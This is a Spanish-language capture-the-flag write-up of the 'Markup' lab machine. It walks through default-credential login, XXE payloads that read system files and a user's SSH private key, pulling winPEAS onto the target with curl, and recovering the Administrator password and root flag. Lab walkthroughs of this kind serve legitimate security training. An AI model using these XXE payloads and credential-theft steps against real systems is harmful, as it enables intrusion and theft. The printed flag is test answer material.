----------
- Tags: #Reconnaisance #apache #SSH #PHP #scheduledjobabuse #weakcredentials #ArbitraryFileUpload #XXEInjection #WeakPermissions
---------



🌐 Dirección IP: `10.129.253.196`  
🎯 Objetivo: Enumerar servicios, detectar vulnerabilidades y obtener flags de usuario y root.

### 🧭 Enumeración inicial

#### 🔎 Escaneo básico con Nmap

📌 Análisis específico del puerto 80

```bash
sudo nmap -sS -sV -p 80 -Pn 10.129.253.196
```



🔐 El puerto 80 está **filtrado**, pero **se espera un servidor Apache**. Esto nos lo confirma la **Task 1** de la máquina, siendo la version 2.4.41




## 🧩 Tarea 2 – ¿Qué combinación de usuario:contraseña permite iniciar sesión correctamente?

📌 _Hint:_ El formato es `palabra:palabra`. Prueba credenciales por defecto.



🔍 Se prueban combinaciones típicas:

- `admin:admin`
    
- `admin:password` ✅
    
- `user:password`
    
- `test:test`
    
- `guest:guest`
    

📥 La combinación correcta que permitió el acceso fue:

✅ **Respuesta:** `admin:password`



## 🧩 Tarea 3 – ¿Cuál es la palabra que aparece en la parte superior de la página que acepta entrada del usuario?

📌 Tras iniciar sesión con `admin:password`, se nos redirige a una interfaz web de administración. En la parte superior de la página se encuentra un campo donde se puede introducir texto.

🔍 La palabra que aparece como título en esa zona (aceptando input del usuario) es:

✅ **Respuesta:** `order`


## 🧩 Tarea 4 – Versión XML utilizada

> **Pregunta:** ¿Qué versión de XML se está utilizando en el objetivo?

### 🔎 Método usado

1. **🔐 Accedimos como `admin:password` al panel web.**
    
2. **🖱️ Navegamos a `http://10.129.253.196/services.php`**.
    
3. **🛠️ Abrimos las herramientas de desarrollador (F12)** en el navegador (usando Firefox en este caso).
    
4. **🔍 Utilizamos la barra de búsqueda dentro del panel `Inspector` para buscar `xml`**.
    
5. **📄 Localizamos en el script JS la plantilla:**

```bash
var xmlTemplate = '<?xml version="1.0"?>';
```



## 🧠 Task 5 – ¿Qué significa XXE / XEE?

> **Pregunta:**  
> _What does the XXE / XEE attack acronym stand for?_

> **Pista dada:**  
> `OWASP Top 10 2017`

### 🛡️ XXE – XML External Entity

📌 Este tipo de vulnerabilidad consiste en abusar del análisis de entidades externas dentro de documentos XML para:

- Extraer archivos del sistema del servidor 🗃️
    
- Leer contenido no autorizado 🕵️
    
- Realizar ataques SSRF 🌐 (Server-Side Request Forgery)
    
- Y más...
    




---

📚 Ejemplo de Payload

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Este payload intenta cargar el archivo `/etc/passwd` desde el servidor vulnerable.

✅ **Respuesta correcta:**



## 🧩 Task 6 — Username en el código fuente HTML

### ❓ Pregunta

> **What username can we find on the webpage's HTML code?**

### 🔎 Paso a paso

🔸 Accedemos al sitio web desde el navegador:  
`http://10.129.253.196/`

🔸 Hacemos clic derecho en la página y seleccionamos:  
**`Ver código fuente`** (o con `Ctrl + U`)

🔸 Buscamos en la sección `<head>` del documento HTML.

🔸 Encontramos el siguiente **comentario incrustado**:



📌 Esto revela el nombre del desarrollador o usuario que ha modificado el sitio.

### 💡 Comentario

Este tipo de información suele pasar desapercibida, pero puede revelar usuarios reales, nombres de sistema o pistas para futuros accesos.  
Siempre conviene revisar los metadatos, comentarios y firmas dentro del código HTML, especialmente en entornos vulnerables.


## 🧩 Tarea 7 — ¿Qué archivo se encuentra en la carpeta Log-Management del objetivo?

## 🔎 1. Revisión del entorno web

📍 Se accede a la siguiente URL:  
`http://10.129.171.231/services.php`

🧾 El sitio web muestra un formulario para hacer pedidos en XML. Posible vector de ataque.

🧰 Herramientas utilizadas:

- Firefox 🦊 + FoxyProxy
    
- Burp Suite (modo proxy activo)

- [🔗 HackTricks - XXE ](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html?highlight=XML#xml-basics)




📸 En Burp se intercepta la petición del formulario:



## 🧪 2. Comprobación de vulnerabilidad XXE

Se prueba si el XML es vulnerable a inyección con entidad externa:

```bash
<!DOCTYPE foo [ <!ENTITY xxe "Quad Lock"> ]>
<order>
  <quantity>addsda</quantity>
  <item>&xxe;</item>
  <address>adasdsa</address>
</order>
```



> Your order for Quad Lock has been processed ✅

💥 El servidor es vulnerable a **XXE (XML External Entity)**.


## 📂 3. Acceso a ficheros del sistema Windows

### 📄 a) Prueba con un archivo del sistema operativo

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/windows/win.ini"> ]>
```



La respuesta muestra contenido del fichero `win.ini`:  
Se confirma que podemos **leer archivos locales**.

## 🔐 4. Robo de clave privada SSH

Se intenta acceder al fichero `id_rsa` del usuario `daniel`:

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/Users/daniel/.ssh/id_rsa"> ]>
```



Se obtiene la clave privada OpenSSH y editamos un archivo en nuestra maquina con la clave siendo "id_rsa"



## 💻 5. Acceso por SSH al sistema remoto

Usamos la clave para conectarnos como el usuario `daniel`:

```bash
ssh daniel@10.129.171.231 -i id_rsa
```



Conexión exitosa ✅

## 📁 6. Búsqueda del archivo en Log-Management

Ya dentro del sistema, se listan las carpetas en `C:\`:

```bash
cd C:\
dir
cd Log-Management
dir
```



Como vemos, el archivo que contiene la carpeta "Log-Management es job.bat"



## 🧩 Tarea 8 — ¿Qué ejecutable se localiza en el directorio mencionado anteriormente?

## 📁 1. Revisando el archivo `job.bat`

Desde la terminal con acceso SSH como `daniel`, se ejecuta:

```bash
type job.bat
```

Contenido del archivo:



## 2. ¿Qué hace este script?

Este script en `batch`:

- Comprueba si el usuario tiene privilegios de administrador.
    
- Si los tiene, ejecuta el comando `wevtutil.exe` para:
    
    - Enumerar los logs (`el`)
        
    - Borrarlos uno a uno (`cl`)
        

🧹 Resultado: **borra todos los registros de eventos de Windows**.

Esto es típico en scripts post-explotación para **eliminar huellas** tras una intrusión.

## 💡 Ejecutable mencionado

> 🟩 **`wevtutil.exe`**

Herramienta de línea de comandos de Windows usada para gestionar registros de eventos (listar, borrar, exportar, etc.).




## 🧩 Tarea 9 — ¿Cuál es la flag de usuario (user.txt)?

---

## 👣 1. Navegación hacia el escritorio del usuario

Ya conectado como `daniel`, se lista el contenido de su carpeta personal:



🎯 Flag encontrada.

## 🧩 Tarea 10 — ¿Cuál es la flag de root (root.txt)?

## 🚀 Escalada de privilegios con WinPEAS.bat

### 📥 1. Descarga de WinPEAS

Descargamos la herramienta desde el repositorio oficial:

> [🔗 PEASS-ng - Releases](https://github.com/peass-ng/PEASS-ng/releases/tag/20250601-88c7a0f6)

Guardamos el archivo `winPEAS.bat` en nuestra máquina Kali/Parrot.



### 🌐 2. Servidor web para transferencia

Desde la terminal, iniciamos un servidor HTTP con Python:

```bash
python3 -m http.server 4444
```


El servidor escucha correctamente y confirma la petición `GET` desde el objetivo.

### 📡 3. Transferencia del archivo al objetivo

Desde la máquina comprometida (como `daniel`), hacemos el `curl`:

```bash
curl http://10.10.14.159:4444/winPEAS.bat -o winpeas.bat
```



El archivo se descarga correctamente al escritorio.


### 🧠 4. Ejecución de winPEAS

```bash
winpeas.bat
```

Comienza el escaneo del sistema.



### 🧾 5. Resultado interesante: Credenciales encontradas

WinPEAS detecta claves en el registro de Windows:

Se observan:

```bash
DefaultUserName : Administrator
DefaultPassword : Yhk}QE&j<3M
```



💥 ¡Contraseña del usuario **Administrator** descubierta!

## 🔐 6. Acceso como `Administrator` por SSH

Con las credenciales encontradas:

```bash
ssh administrator@10.129.171.231
```

(Usando `Yhk}QE&j<3M` como contraseña)

## 📂 7. Lectura de la flag `root.txt`

Desde la sesión como `Administrator`, navegamos al escritorio:

```bash
cd C:\Users\Administrator\Desktop
type root.txt
```



El contenido de la flag:

> **`f574a3e7650cebd8c39784299cb570f8`**

🎯 ¡Flag de root obtenida!


## 🧾 Conclusión Final — Máquina _Markup_ (HTB)

---

### 🎯 Objetivo principal:

Explotar una vulnerabilidad **XXE** en una aplicación web para acceder al sistema, escalar privilegios localmente y capturar ambas flags: `user.txt` y `root.txt`.

---

### 🧩 Técnicas y fases aplicadas:

#### 🔍 1. **Reconocimiento**

- Se identifica un formulario XML que envía peticiones en `services.php`.
    
- Se intercepta la petición con Burp Suite y se confirma una vulnerabilidad XXE clásica.
    

#### 🧨 2. **Explotación de XXE**

- Se usa una entidad externa para leer `win.ini`, demostrando la lectura de archivos.
    
- Se accede al archivo `id_rsa` de un usuario (`daniel`), permitiendo obtener acceso SSH.
    

#### 🧑‍💻 3. **Acceso como usuario**

- Con la clave privada, se accede como `daniel`.
    
- Se encuentra la flag de usuario `user.txt`.
    
- Se inspecciona un script (`job.bat`) que borra los logs mediante `wevtutil.exe`.
    

#### 📈 4. **Escalada de privilegios**

- Se transfiere `winPEAS.bat` al objetivo y se ejecuta localmente.
    
- Se descubren credenciales del usuario `Administrator` en el registro de Windows.
    
- Se accede por SSH como `Administrator` y se obtiene la flag `root.txt`.
    

---

### 🔑 Conocimientos clave reforzados:

| Categoría           | Aprendizaje                                                                 |
| ------------------- | --------------------------------------------------------------------------- |
| 🔐 XXE              | Cómo inyectar entidades para exfiltrar archivos                             |
| 📄 Batch scripting  | Análisis de scripts `.bat` usados para borrar rastros                       |
| 📦 WinPEAS          | Detección automatizada de credenciales y malconfigs                         |
| 🧠 Post-explotación | Gestión de claves privadas, transferencia de ficheros, y movimiento lateral |
